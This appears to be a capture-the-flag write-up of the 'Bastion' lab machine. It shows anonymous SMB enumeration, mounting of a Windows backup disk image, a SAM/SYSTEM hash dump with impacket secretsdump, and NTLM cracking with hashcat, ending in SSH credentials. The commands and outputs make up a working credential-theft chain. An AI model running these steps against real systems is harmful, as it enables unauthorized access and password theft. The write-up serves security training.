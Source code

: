 We find a null session in SMB

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -N -L //10.10.10.134

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~]
└─$ smbclient -N //10.10.10.134/Backups 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Apr 16 12:02:11 2019
  ..                                  D        0  Tue Apr 16 12:02:11 2019
  note.txt                           AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 13:44:02 2019
```

We access to the folder WindowsImageBackup and we found a backup called `L4mpje-PC`. Mount the drive in our system

```bash
┌──(kali㉿kali)-[/]
└─$ mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```

Now we can access to the files in our filesystem. Here we find two vhd files, which are disk image files. We tried to mount both but only was mounted successfully

```bash
┌──(kali㉿kali)-[/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ sudo guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/

┌──(kali㉿kali)-[/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ sudo su

┌──(root㉿kali)-[/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─# cd /mnt2

┌──(root㉿kali)-[/mnt2]
└─# ls
'$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
 autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
 ```

In the folder Windows/System32/config we have the files SAM and SYSTEM, files needed to dump the user hash

```bash
┌──(root㉿kali)-[/mnt2/Windows/System32/config]
└─# /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```

With hashcat we found a valid credentials

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Bastion-10.10.10.134]
└─$ sudo hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

[...SNIP...]

31d6cfe0d16ae931b73c59d7e0c089c0:                         
26112010952d963c8dc4217daec986d9:bureaulampje             
                                                          
[...SNIP...]
```

So we have L4mpje:bureaulampje credentials and works for SSH